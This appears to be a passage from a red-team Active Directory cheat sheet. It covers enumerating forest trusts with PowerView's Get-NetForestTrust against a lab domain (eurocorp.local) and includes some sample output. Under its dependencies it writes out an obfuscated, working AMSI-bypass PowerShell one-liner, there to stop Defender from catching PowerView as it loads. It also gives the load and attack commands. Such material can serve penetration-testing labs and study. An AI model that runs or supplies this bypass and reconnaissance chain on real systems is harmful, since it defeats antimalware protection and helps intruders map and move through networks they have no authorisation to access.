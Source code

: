```
HighestCommittedUsn        :
OSVersion                  :
Roles                      :
Domain                     :
IPAddress                  : 172.16.15.2
SiteName                   :
SyncFromAllServersCallback :
InboundConnections         :
OutboundConnections        :
Name                       : eu-dc.eu.eurocorp.local
Partitions                 :
```

#### Tags:

<pre>#!AD #!ActiveDirectory #!Windows #!PowerShell #!PowerView #!Trust #!Forest</pre>

<br/><br/>

### Attacks
* Get-NetForestTrust (PowerView)
	* Overview

* Map trusts of a forest

#### Dependencies:

* PowerView
    - https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1
    - Load up PowerView
    - If Defender is not disabled, AMSI will step in and detect
    - You will need to use a bypass to load it correctly
        + ```sET-ItEM ( 'V'+'aR' +  'IA' + 'blE:1q2'  + 'uZx'  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;   (   GeT-VariaBle  ( "1Q2U" +"zx"  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System'  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f'amsi','d','InitFaile'  ),(  "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )```
    - `cd C:\AD\Tools\`
    - `. .\PowerView.ps1`

#### Attack Command: Run with `powershell`!

* `Get-NetForestTrust`
* `Get-NetForestTrust -Forest eurocorp.local`

	* Examples

```
```

#### Tags:

<pre>#!AD #!ActiveDirectory #!Windows #!PowerShell #!PowerView #!Trust #!Forest</pre>

